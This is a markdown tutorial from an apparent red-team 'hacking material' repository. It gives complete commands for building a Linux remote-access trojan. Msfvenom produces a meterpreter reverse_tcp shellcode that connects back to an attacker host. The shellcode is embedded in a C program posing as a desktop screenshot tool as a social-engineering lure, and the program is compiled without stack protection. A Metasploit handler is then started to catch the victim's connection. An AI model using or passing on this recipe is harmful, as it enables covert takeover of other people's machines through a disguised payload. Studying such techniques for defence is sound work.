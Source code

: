 #### EXERCISE OBJECTIVES
Take control of a linux system remotely ( metasploit - RAT )

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also contains a system command that takes a screenshot to the desktop of the target PC using<br />
[MITRE ATT&CK T1113 (xwd package)](https://attack.mitre.org/techniques/T1113/) Technic.<br />

<br /><br />

| DEPENDENCIE | FUNCTION | REQUIRED |
|---|---|---|
| Metasploit | Build shellcode ; recive connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

<br /><br /><br />

### STEP-BY-STEP (HOW-TO)

<br />

#### Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br />

#### Use Metasploit to Build Shellcode in C Format

```
   ## Build raw shellcode in C
   # WARNING: Replace LHOST value by your local ip address
   # WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
   sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -a x86 --platform linux -f c -o chars.raw

```

<br />

#### See whats written inside chars.raw (optional)

```
   cat chars.raw
```

<br />

#### Parse shellcode data and store it into a local bash variable

```
   pa=$(cat chars.raw | grep -v "=" | tr -d '"; ' | tr -d '\n')
```

<br />

#### Insert the C shellcode created into a C program

```
   echo "#include<stdio.h>" > payload.c
   echo "#include<stdlib.h>" >> payload.c
   echo "#include<string.h>" >> payload.c
   echo "" >> payload.c
   echo "unsigned char buf[] = \"$pa\";" >> payload.c
   echo "" >> payload.c
   echo "int main()" >> payload.c
   echo "{" >> payload.c
   echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
   echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  void (*ret)() = (void(*)())buf;" >> payload.c
   echo "  ret();" >> payload.c
   echo "}" >> payload.c
```

<br />

#### See whats written inside payload.c (optional)

```
   cat payload.c
```

<br />

#### Use GCC to compile the C program (make it executable)

```
 sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br />

#### Start metasploit multi handler

```
   # WARNING: Replace LHOST value by your local ip address
   # WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
   sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br />

#### Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


